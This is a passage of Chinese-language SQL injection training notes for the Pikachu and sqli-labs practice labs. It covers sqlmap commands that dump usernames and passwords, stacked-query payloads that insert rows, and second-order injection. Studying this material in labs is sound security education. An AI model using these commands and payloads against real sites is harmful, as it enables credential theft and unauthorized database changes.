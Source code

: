   --columns 获取字典 -T 某个表

```shell
sqlmap -u "http://192.168.0.109/06/vul/sqli/sqli_str.php?name=vince&submit=%E6%9F%A5%E8%AF%A2~" -p name --technique=T -D pikachu -T users --columns --batch
```

- 查询每行数据

  -C 指定查询字段 --dump 导出数据

```shell
sqlmap -u "http://192.168.0.109/06/vul/sqli/sqli_str.php?name=vince&submit=%E6%9F%A5%E8%AF%A2~" -p name --technique=T -D pikachu -T users -C "id,username,password" -v 1 --dump --batch
```





#### 7.2 堆叠查询

##### 7.2.1 堆叠查询的原理

堆叠查询可以执行多条 SQL 语句，语句之间以分号(;)隔开，而堆叠 查询注入攻击就是利用此特点，在第二条语句中构造要执行攻击的语句。

在 mysql 里 `mysqli_multi_query` 和 `mysql_multi_query `这两个函数执行一个或多个针对数据库的查询。多个查询用分号进行分隔。 但是堆叠查询只能返回第一条查询信息，不返回后面的信息。

select version();select database()

堆叠注入的危害是很大的 可以任意使用增删改查的语句，例如删除数据库 修改 数据库，添加数据库用户。

由于sql函数执行的时候是`mysqli_multi_query(param1,param2)`，因此注入的时候只需要将字符串注入截断，改成使用`;`，冒号后拼接后面的sql语句即可。

```sql
id=-999';insert into users(id,username,password)values(1000,'moonsec','123456')--+
```

插入信息的时候，可以使用sql查询语句作为参数输入

```sql
id=-999';insert into users(id,username,password)values(1000,(select version()),'123456')--+
```



#### 7.3 二次注入攻击

##### 7.3.1 二次注入的原理

在使用数据库语句进行操作的时候，在首次使用`addslashed`或者`get_magic_quotes_gpc`对特殊字符进行了转移，但是在字符插入数据库的时候，并没有将转义字符也一起写入到数据库中。因此，在下一次读取这部分数据的时候，没有进行对这部分数据进行转义，从而造成了注入。



##### 7.3.2  黑盒环境下进行二次注入测试

一般二次注入的功能点，用户注册->修改密码，邮箱注册->修改密码，文章添加->文章修改。

二次注入测试 SQL 注入，二次注入多数是字符型注入，所以要注意闭合问题。

基于`sql-lib/Lesson-24`
